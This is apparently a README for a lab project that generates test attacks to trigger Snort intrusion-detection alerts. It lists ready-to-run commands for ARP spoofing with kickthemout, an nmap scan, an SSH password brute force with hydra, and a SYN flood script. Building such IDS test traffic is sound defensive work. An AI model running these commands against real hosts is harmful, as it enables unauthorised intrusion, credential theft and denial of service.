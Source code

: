 # attacks
Directory containing the code used for the test attacks used for triggering the snort alerts. 

The structure of the project is the following one.

 - **kickthemout**: Tool to perform and ARP spoofing on the victim. Link [here](https://github.com/k4m4/kickthemout).

```
 sudo python3 kickthemout.py --target 192.168.1.10

 sudo python3 kickthemout.py --target <ip>
``` 

- **port scanning**: Simple nmap scan on the ip. More options are possible to be added but at this point it's enough.

```
nmap 172.16.46.2

nmap <ip>
```

- **ssh brute force**: The tool used is hydra. The test command used is the following one.
 
```
./hydra -s 22 -v -V -l fran -P ../SecLists/Passwords/darkweb2017-top1000.txt -t 8 192.168.1.10 ssh

./hydra -s 22 -v -V -w 4 -l fran -P ../SecLists/Passwords/darkweb2017-top1000.txt -t 8 192.168.1.10 ssh

./hydra -s <port> -v -V -w <waittime> -l <username> -P <path to password file> -t <number of threads> <ip> <protocol>
```

 - **syn_flood**: Tool to be used for the Syn Flood Attack based on the project [pyddos](https://github.com/mach1el/pyddos) by [mach1el](https://github.com/mach1el)..
 
```
sudo python syn_flood.py -d 192.168.1.10 -p 22 -t 1

sudo python syn_flood.py -d <ip> -p <port> -t <number of threads>
```
  
 
 
